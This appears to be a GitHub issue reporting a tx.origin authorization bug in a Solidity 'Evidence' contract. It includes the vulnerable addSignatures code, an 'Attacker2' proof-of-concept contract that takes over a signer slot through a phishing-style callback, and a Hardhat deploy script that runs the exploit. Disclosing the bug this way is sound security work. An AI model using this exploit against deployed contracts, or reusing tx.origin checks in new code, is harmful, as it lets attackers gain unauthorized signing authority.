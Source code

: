 ## Problematic code design (tx.origin) that allows attacker to pass the authority check

**Describie the bug**

The contract *Evidence* used by *MarriageEvidence.sol* contains a bug that can make the attacker pass the authority check because of `tx.origin`. For instance, the function *addSignatures* check whether the `tx.origin` is one of the signed addresses, and calls push the `tx.origin` address to the signers array. The attacker can make use of the authority check when signers wrongly call the attacker's maldesigned function, and to become the signer without permission. The situation is similar to the case of *CarbonFurgalEvidence*.

```solidity
//添加签名者地址（此地址必须为合约签名者地址）
    function addSignatures() public returns(bool) {
        for(uint i= 0 ;i<signers.length ;i++)
        {
            //此时的tx.orgin为当前调用此方法的调用者地址
            if(tx.origin == signers[i])
            {
                // use tx.origin to pass the check
                console.log("pass the authority check, successful attack.");
                addRepeatSignaturesEvent(evidence);
                return true;
            }
        }
       if(CallVerify(tx.origin))
       {
            signers.push(tx.origin);
            addSignaturesEvent(evidence);
            return true;
       }
       else
       {
           errorAddSignaturesEvent(evidence,tx.origin);
           return false;
       }
    }
```



**To Reproduce**

Steps to reproduce the behavior:

1. prepare harhat testing environment

2. copy problematic *CarbonFrugalEvidence* with inserted log output statement (lines 9 shown above) which are used in test to a created directory `contracts`

3. create an attacker contract instance that can utilize the vulnerability `Attacker2`

   ```solidity
   pragma solidity ^0.4.24;
   import "hardhat/console.sol";
   import "./Evidence.sol";
   
   interface IEvidence {
       function addSignatures() public returns(bool);
   }
   
   contract Attacker2 {
       
       address _evidence;
   
       constructor(address evidence) {
           _evidence = evidence;
       }
   
       function callback() public returns (bool){
           console.log(msg.sender);
           bool state = IEvidence(_evidence).addSignatures();
           // test the success of attack using tx.origin
           console.log("state: %s", state);
           return state;
       }
   
   }
   ```
   
   In this contract, if the signer of contract `Evidence` calls the *callback()*, then the attacker contract can invoke the *addSignatures* to pass the authority check (cause the `tx.origin` is still the admin), thus making itself permitted and become the signer.
   
4. create a js file `deploy2.js` and use the followed test deployment js to execute `npx hardhat run scripts/deploy2.js`

   ```js
   async function main() {
     const [deployer] = await ethers.getSigners();
   
     console.log("Deploying contracts with the account:", deployer.address);
   
     // factory address
     const evfactory = await ethers.getContractFactory("EvidenceFactory");
     const factory = await evfactory.deploy([deployer.address]);
   
     const victim = await ethers.getContractFactory("Evidence");
     const token = await victim.deploy("str", factory.address);
   
     console.log("Victim contract Evidence address:", token.address);
   
     const attacker = await ethers.getContractFactory("Attacker2");
     const att = await attacker.deploy(token.address);
     console.log("Attacker address:", att.address);
   
     const res = await att.callback();
     // console.log(res);
   }
   
   main()
     .then(() => process.exit(0))
     .catch((error) => {
       console.error(error);
       process.exit(1);
     });
   
   ```
   
   

**Expected behavior**

The test results will show the log `"pass the authority check, successful attack"` and get the returned value `true`, which means the attacker successfully pass the authority check with the use of `tx.origin`.



**Screenshots**

<img src="./image-20230222143225775.png" alt="image-20230222143225775" style="zoom:67%;" align=left />